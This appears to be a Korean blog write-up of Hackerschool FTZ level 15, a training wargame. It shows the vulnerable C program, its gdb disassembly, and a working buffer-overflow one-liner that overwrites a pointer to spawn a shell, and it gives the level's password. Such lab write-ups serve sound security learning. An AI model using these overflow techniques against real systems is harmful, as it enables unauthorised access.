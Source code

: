 ```yaml
---
date: '2022-10-05'
before : '2022-10-04'
after : '2022-10-06'
title: '시스템 해킹(11) : 해커스쿨 FTZ 레벨 15'
categories: ['C-SEC', 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

BOF문제인데, int *check 포인터가 0xdeadbeef를 가리킨다면 쉘 코드를 실행시켜주는 식이다. 소스코드를 보면서 시작하자.


### 1. Level 15

```
#include <stdio.h> 
main(){
     int crap;  
     int *check; 
      char buf[20];  
     fgets(buf,45,stdin);  
     if (*check==0xdeadbeef)   
        {     setreuid(3096,3096);    
              system("/bin/sh");  
              }
    }
```

대충 요런식이다. gdb를 이용해서  disassemble 해보자.
```
0x080483b8 <main+0>:    push   ebp
0x080483b9 <main+1>:    mov    ebp,esp
0x080483bb <main+3>:    sub    esp,0x38
0x080483be <main+6>:    and    esp,0xfffffff0
0x080483c1 <main+9>:    mov    eax,0x0
0x080483c6 <main+14>:   sub    esp,eax
0x080483c8 <main+16>:   sub    esp,0x4
0x080483cb <main+19>:   push   ds:0x80495d4
0x080483d1 <main+25>:   push   0x2d
0x080483d3 <main+27>:   lea    eax,[ebp-56]
0x080483d6 <main+30>:   push   eax
0x080483d7 <main+31>:   call   0x80482d8 <fgets>
0x080483dc <main+36>:   add    esp,0x10
0x080483df <main+39>:   mov    eax,DWORD PTR [ebp-16] // 16 -12 pointer
0x080483e2 <main+42>:   cmp    DWORD PTR [eax],0xdeadbeef
0x080483e8 <main+48>:   jne    0x804840f <main+87>
0x080483ea <main+50>:   sub    esp,0x8
0x080483ed <main+53>:   push   0xc18
0x080483f2 <main+58>:   push   0xc18
0x080483f7 <main+63>:   call   0x80482f8 <setreuid>
0x080483fc <main+68>:   add    esp,0x10
0x080483ff <main+71>:   sub    esp,0xc
```
ebp-56 위치에 buf 배열이 마무리되고, ebp-16지점에 


단, 우리는 deadbeef의 메모리 주소값을 알아내어야 한다. 이를 위해선 gdb에서 x/20x를 해보면 된다. 노가다를 뛰면서 일일히 값을 입력하다보면 딱 0xdeadbeef가 나오는 주소를 발견하는데,

```
0x80484b2
```
라는걸 확인할 수 있다. 그럼 단순히 저 값을 bof 공격을 통해 check 포인터에 넣어주면 된다.
```
 (python -c 'print "A"*40+"\xb2\x84\x04\x08"'; cat) | ./attackme
```
단순하다고 할 수 있는 문제였던 것 같다.

비밀번호 : about to cause mass

---
## Source

- 해커스쿨 FTZ
- Me!
